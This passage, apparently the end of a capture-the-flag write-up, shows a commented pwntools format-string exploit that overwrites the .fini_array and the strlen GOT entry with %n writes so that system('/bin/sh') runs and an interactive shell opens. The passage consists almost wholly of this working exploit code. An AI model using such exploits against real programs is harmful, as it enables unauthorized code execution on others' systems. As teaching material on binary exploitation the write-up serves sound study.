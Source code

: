 ```

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```

With that exploit, we get shell!